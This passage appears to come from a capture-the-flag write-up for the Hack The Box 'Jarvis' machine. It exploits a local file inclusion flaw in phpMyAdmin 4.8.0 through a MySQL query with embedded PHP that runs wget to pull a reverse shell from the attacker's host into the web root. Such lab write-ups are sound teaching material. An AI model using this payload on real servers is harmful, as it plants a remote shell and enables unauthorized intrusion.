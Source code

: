 ![](/assets/images/htb-jarvis/jarvis-phpmyadmin-admin.png)

Notice that `phpmyadmin` was running version `4.8.0` and was vulnerable to LFI.

```
$ searchsploit phpmyadmin
... CONTENT SNIPPED ...
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                                                                               | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                                                                               | php/webapps/44928.txt
... CONTENT SNIPPED ...
```

The exploits above mention that you can run a MySQL query with PHP code in it to pollute the PHP session identifier.
In my case, I requested that the PHP invoke a shell command that would download a PHP reverse shell onto the web root.

```mysql
select '<?php echo shell_exec("wget -O /var/www/html/r0kit-rsh.php http://10.10.14.19:8000/r0kit-rsh.php"); ?>' 
```

![](/assets/images/htb-jarvis/jarvis-phpmyadmin-prepare-wget-revshell.png)
